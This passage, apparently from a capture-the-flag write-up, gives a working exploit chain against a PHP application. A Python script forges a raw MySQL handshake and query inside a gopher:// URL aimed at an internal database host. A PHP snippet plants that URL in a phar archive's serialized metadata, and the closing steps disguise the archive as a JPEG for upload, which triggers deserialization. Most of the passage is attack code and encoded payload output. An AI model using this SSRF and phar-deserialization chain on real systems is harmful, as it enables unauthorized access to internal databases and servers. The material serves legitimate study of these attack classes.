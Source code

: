 ```python
# prefix + username(hex) + \x00 + password(\x00) + suffix
connect =  "85a21e0000000040080000000000000000000000000000000000000000000000"
connect += username
connect += '00'
connect += '00'
connect += "6d7973716c5f6e61746976655f70617373776f72640061035f6f730964656269616e362e300c5f636c69656e745f6e616d65086c69626d7973716c045f7069640532323334340f5f636c69656e745f76657273696f6e08352e362e362d6d39095f706c6174666f726d067838365f363403666f6f03626172"
connect = hex(len(connect)/2)[2:]+"000001"+connect

# \x03 = exec query
query = "select * from information_schema.tables where table_schema='cat';"
raw_query = "03"
raw_query += query.encode('hex')
raw_query = p_4(len(query)+1).encode('hex')+raw_query

# quit
disconnect = '0100000001'

data = raw_encode(connect + raw_query + disconnect)

print "gopher://catproxy_db_1:3306/_"+data
'''
$ python mysql_raw_connect.py
gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01
'''
```

I create tar using url containing gopher wapper and mysql raw socket.

```php
$phar = new PharData("get_tables.tar");
$phar["AAABshpik"] = "FLAGFLAGFLAG";
$obj = new Requests('gopher://catproxy_db_1:3306/_%9d%00%00%01%85%a2%1e%00%00%00%00%40%08%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%63%61%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%61%03%5f%6f%73%09%64%65%62%69%61%6e%36%2e%30%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%32%33%34%34%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%08%35%2e%36%2e%36%2d%6d%39%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%03%66%6f%6f%03%62%61%72%42%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%74%61%62%6c%65%73%20%77%68%65%72%65%20%74%61%62%6c%65%5f%73%63%68%65%6d%61%3d%27%63%61%74%27%3b%01%00%00%00%01');
$phar->setMetadata($obj);
```

Now, in "AAABshpik", you should change AAA to "\ xFF \ xD8 \ xFF",  and upload this file to the server.
